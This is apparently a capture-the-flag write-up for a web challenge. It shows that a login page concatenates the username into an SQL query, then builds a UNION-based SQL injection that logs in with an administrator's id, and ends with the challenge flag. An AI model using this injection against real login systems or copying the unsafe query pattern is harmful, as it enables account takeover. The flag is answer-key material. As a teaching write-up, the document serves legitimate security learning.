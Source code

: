 ```yaml
---
title: "I am the admin now"
description: "RISC intro2web challenge 6"
pubDate: "Aug 27 2025"
heroImage: "/hero/risc-index-2_Raaquilla.webp"
tags: ["cyber", "python", "sql", "php", "ctf", "exploit"]
canonical: "https://writeups.urisc.club/web/6_i_am_the_admin_now/"
---
```


## Challenge description

/admin.php is heavily locked down, not allowing anyone to see it except for administrators! There's definitely no way to bypass this.

---

## Approach

Looking through the page's source code, we can find that there is an SQL injection vulnerability in `login.php`:

```php
$sql = "SELECT id, password, fullname FROM users WHERE username = '$username' LIMIT 1";
```

Since the username is concatenated directly into the SQL, we can add in our own SQL to be executed.

We can confirm this by entering `'--` as our username and we get a `mysqli_sql_exception`.

Since the username is near the end of the query, we can't modify any of the preceding SQL, so instead we will try to make it redundant.

Lets look at our query.

```sql
SELECT id, password, fullname FROM users WHERE username = 'index' LIMIT 1
```

> 'index' being my username

If we inject `' UNION SELECT id, password, fullname FROM users WHERE username = index` the sql becomes:

```sql
SELECT id, password, fullname FROM users WHERE username = ''
UNION
SELECT id, password, fullname FROM users WHERE username = index LIMIT 1
```

This combines the result of the first query with the result of the second query. The first query's username is blank so it will return nothing making the query now return solely what our injected half requests.

Now we need to adjust our query to get us admin access.

Looking back at the source code we find the admin page uses the id to authenticate:

```php
$stmt = $conn->prepare("SELECT is_admin, fullname, username FROM users WHERE id = ?");
```

So if we can get our user id to be one of an admin, we can get access to the page.

### The Injection

```sql
' UNION SELECT (SELECT id FROM users WHERE is_admin = 1 LIMIT 1), password, fullname FROM users WHERE username = 'index
```

If we enter the injection as our username, and enter our password, we successfully login.

Navigating to `admin.php` we find our flag waiting for us:

> Administrator Access Granted.
>
> Flag: RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}

Our flag is:

```
RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}
```
